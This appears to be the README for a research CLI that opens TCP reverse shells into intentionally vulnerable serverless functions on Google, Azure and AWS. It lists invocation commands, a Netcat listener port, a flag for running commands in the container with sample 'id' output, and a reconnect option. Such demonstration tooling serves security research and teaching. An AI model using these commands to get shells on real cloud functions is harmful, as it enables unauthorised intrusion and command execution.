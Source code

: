 # Serverless Prey CLI

This is a command-line interface for establishing a TCP reverse shell connection to a Serverless Prey function. With it, you can accomplish steps 2 through 4 on the below diagram with a single command:

![Diagram](../docs/diagram.png "Diagram")

## Usage

We do not recommend invoking this script directly. Instead, you can use the specific aliases for each platform:

```
cheetah/script/cheetah --url-id GOOGLE_PROJECT_ID
cougar/script/cougar --url-id AZURE_FUNCTION_APP_ID --api-key AZURE_FUNCTION_APP_API_KEY
panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY
```

### Options

* `--url`, `-u`: The base URL for the vulnerable endpoint. This is the function URL in the Serverless Framework deployment output for Panther and Cheetah, and `http://$COUGAR_FUNCTION_HOST/api/Cougar` for Cougar.
* `--api-key`, `-a`: The API key for the function. This is required for all platforms except for Google (Cheetah).
* `--port`, `-p` (Optional): The port that the Netcat server will listen on. Defaults to 4444.
* `--region`, `-r` (Optional): The region in which the function is hosted. Defaults to `us-central1` for Google (Cheetah) and `us-east-1` for AWS (Panther). You do not need to provide the region in the request for Azure Function Apps, so this is not needed for Cougar.
* `--command`, `-c` (Optional): If provided, this command will be executed as soon as the connection to the Serverless container is established. The connection will be terminated one second later, and the results will be displayed. Example: `panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY --command id # uid=496(sbx_user1051) gid=495 groups=495`
* `--loop`, `-l` (Optional): If set to true, whenever a successful connection times out, the CLI will attempt to automatically reconnect. This option is ignored if `--command` is set.
